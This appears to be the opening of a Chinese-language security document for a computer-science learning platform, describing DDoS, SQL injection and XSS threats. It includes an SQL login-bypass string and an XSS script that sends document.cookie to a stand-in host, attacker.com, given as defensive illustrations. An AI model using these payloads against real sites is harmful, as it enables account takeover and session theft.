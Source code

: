 # 🛡️ 计算机科学学习平台 - 安全性文档

## 📋 概述

本文档详细说明了计算机科学学习平台面临的安全威胁、已实施的防护措施，以及需要注意的安全问题。

## ⚠️ 主要安全威胁

### 1. 网络攻击威胁

#### 🔥 DDoS攻击 (分布式拒绝服务攻击)
**威胁描述**：
- 攻击者使用大量僵尸网络同时向服务器发送请求
- 导致服务器资源耗尽，正常用户无法访问网站
- 可能造成服务中断，影响用户体验和业务运营

**攻击方式**：
- **流量洪水攻击**：发送大量无效请求占用带宽
- **连接耗尽攻击**：建立大量连接消耗服务器资源
- **应用层攻击**：针对特定功能发送复杂请求

**潜在损失**：
- 服务不可用，用户流失
- 服务器资源消耗，增加运营成本
- 品牌声誉受损

#### 💉 SQL注入攻击
**威胁描述**：
- 攻击者在输入字段中插入恶意SQL代码
- 可能获取、修改或删除数据库中的敏感数据
- 严重情况下可能完全控制数据库

**攻击示例**：
```sql
-- 用户输入: admin' OR '1'='1' --
-- 构造的SQL: SELECT * FROM users WHERE username='admin' OR '1'='1' --' AND password='xxx'
-- 结果: 绕过密码验证，直接登录
```

**潜在损失**：
- 用户数据泄露（用户名、密码、个人信息）
- 学习记录被篡改或删除
- 系统管理员权限被盗用

#### 🕷️ XSS攻击 (跨站脚本攻击)
**威胁描述**：
- 攻击者在网页中注入恶意JavaScript代码
- 当其他用户访问页面时，恶意代码在其浏览器中执行
- 可能窃取用户Cookie、会话信息或进行钓鱼攻击

**攻击示例**：
```html
<!-- 恶意评论内容 -->
<script>
    // 窃取用户Cookie并发送到攻击者服务器
    fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```
